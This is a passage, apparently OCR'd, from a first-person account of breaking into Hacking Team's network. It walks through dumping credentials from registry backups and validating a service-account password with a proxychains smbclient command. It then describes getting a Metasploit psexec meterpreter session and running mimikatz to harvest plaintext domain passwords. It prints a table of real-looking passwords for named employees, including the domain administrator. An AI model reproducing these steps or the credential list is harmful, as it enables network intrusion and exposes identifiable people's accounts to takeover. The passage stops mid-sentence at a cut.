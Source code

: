 	[1] https://ht.transparencytoolkit.org/FileServer/FileServer/Hackingteam/Infras
	trutturaIT/Rete/infrastruttura%20ht.pdf
	
----[10 - From secure backups to domain admin ]---------------------

What interested me most in the secure backup was trying to find a
password or hash that I could use to access the actual server. I used
pwdump, cachedump, and lsadump [1] with the registry backups. lsdadump
found a password for the besadmin service account:

	_SC_BlackBerry MDS Connection Service
	0000   16 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
	0010   62 00 65 00 73 00 33 00 32 00 36 00 37 00 38 00    b.e.s.3.2.6.7.8.
	0020   21 00 21 00 21 00 00 00 00 00 00 00 00 00 00 00    !.!.!...........

I used proxychains [2] with the socks server in the embedded system
and smbclient [3] to check the password:

proxychains smbclient '//192.168.100.51/c$' -U 'hackingteam.local/besadmin%bes32678!!!'
It worked! The besadmin password was still valid, and was a local
admin. I used my proxy and metasploit's psexec_psh [4] to gain a
meterpreter session. I migrated to a 64-bit process, "load kiwi [5],
and "creds_wdigest", and by now had a number of passwords, including
the domain admin's:

	HACKINGTEAM  BESAdmin       bes32678!!!
	HACKINGTEAM  Administrator  uu8dd8ndd12!
	HACKINGTEAM  c.pozzi        P4ssword      <---- look! the sysadmin!
	HACKINGTEAM  m.romeo        ioLK/(90
	HACKINGTEAM  l.guerra       4luc@=.=
	HACKINGTEAM  d.martinez     W4tudul3sp
	HACKINGTEAM  g.russo        GCBr0s0705!
	HACKINGTEAM  a.scarafile    Cd4432996111
	HACKINGTEAM  r.viscardi     Ht2015!
	HACKINGTEAM  a.mino         A!e$$andra
	HACKINGTEAM  m.bettini      Ettore&Bella0314
	HACKINGTEAM  m.luppi        Blackou7
	HACKINGTEAM  s.gallucci     1S9i8m4o!
	HACKINGTEAM  d.milan        set!dob66
	HACKINGTEAM  w.furlan       Blu3.B3rry!
	HACKINGTEAM  d.romualdi     Rd13136f@#
	HACKINGTEAM  l.invernizzi   L0r3nz0123!
	HACKINGTEAM  e.ciceri       2O2571&2E
	HACKINGTEAM  e.rabe         erab@4HT!

	[1] https://github.com/Neohapsis/creddump7
	[2] http://proxychains.sourceforge.net/
	[3] https://www.samba.org/
	[4] http://ns2.elhacker.net/timofonica/manuales/Manual_de_Metasploit_Unleashed.pdf
	[5] https://github.com/gentilkiwi/mimikatz

**--[ 11 - Downloading the mail ]----------------------**

Now that I had the password to the domain's admin, I had access to the
email, the hard of the business. Since every password I used raised
the risk of being detected, I download the emails before going on to
explore them. Powershell makes this easy [1]. Curiously, I found a bug
in the way that dates were handled. After obtaining the emails, I
waited a couple of weeks before getting the source code and all the
rest, returning once in a while to download new emails. The server was
Italian, with dates in the format day/month/year. I used:
